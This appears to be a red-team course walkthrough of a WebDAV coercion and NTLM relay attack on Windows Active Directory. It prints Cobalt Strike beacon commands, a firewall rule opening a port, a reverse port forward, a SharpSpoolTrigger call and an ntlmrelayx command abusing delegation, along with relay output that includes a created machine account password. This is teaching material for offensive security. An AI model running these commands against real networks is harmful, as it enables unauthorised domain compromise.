 Web Distributed Authoring and Versioning (aka WebDAV) is an extension that allows for basic file operations (create/copy/move/delete) over the HTTP protocol.  Windows supports the use of WebDAV via Explorer where users can enter a URI or map a drive to a WebDAV server.  The WebClient service facilitates Explorer's ability to use WebDAV.  This is set to DEMAND_START by default, so is generally only running if a user has actively used a WebDAV resource.  Some Windows technologies, such as SharePoint, use WebDAV fairly heavily.

    C:\Users\bfarmer>sc qc WebClient
    [SC] QueryServiceConfig SUCCESS
    
As discovered by Lee Christensen, the WebClient exposes a named pipe called DAV RPC SERVICE, which makes it fairly easy to enumerate remote targets to establish whether the WebClient service is running or not.  The GetWebDAVStatus repo by Dave Cossa provides C# and BOF projects that check for the presence of this named pipe.

    beacon> inline-execute C:\Tools\GetWebDAVStatus\GetWebDAVStatus_BOF\GetWebDAVStatus_x64.o wkstn-1,wkstn-2    

This output shows that the service is running WKSTN-1, which makes it a viable target for this attack.  The steps are to coerce the service into authenticating to a malicious WebDAV server that we control and then relay the authentication.  A nice aspect of this attack is that we can force authentication to occur over any port, so we don't have to worry about needing PortBender (I can hear you all cheering).  All we need to ensure is that whatever port we choose is allowed inbound on the host firewall we're reverse port forwarding from.

The incoming authentication material will be that of the machine account.  ntlmrelayx can relay this to LDAP on a domain controller to abuse either RBCD (using the --delegate-access flag) or shadow creds (using the --shadow-credentials flag).  In either case, ensure you run the HTTP server on a port that will not clash with any of your HTTP listeners.  In this example, I've used port 8888.

    attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t ldaps://10.10.122.10 --delegate-access -smb2support --http-port 8888
    ProxyChains-3.1 (http://proxychains.sf.net)
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Once that's up and running, punch a hole in the firewall and set the reverse port forward.

    beacon> getuid
    [*] You are DEV\bfarmer (admin)
    
    beacon> powershell New-NetFirewallRule -DisplayName "8888-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8888
    beacon> rportfwd 8888 localhost 8888
    
Then use SharpSystemTriggers to trigger the authentication.  The WebDAV URL needs to point to the reverse port forward.

    beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe wkstn-1 wkstn-2@8888/pwned    

Once the traffic hits ntlmrelayx, it will relay to the domain controller.

    [*] HTTPD(8888): Connection from 127.0.0.1 controlled, attacking target ldaps://10.10.122.10
    |S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:636-<><>-OK
    
As indicated by the output above, a new machine account PVWUMPYT$ was created with password 4!t1}}I_CGJ}0OJ, which now has delegation rights to WKSTN-1$.  To complete the attack chain, calculate the AES256 hash from the password.
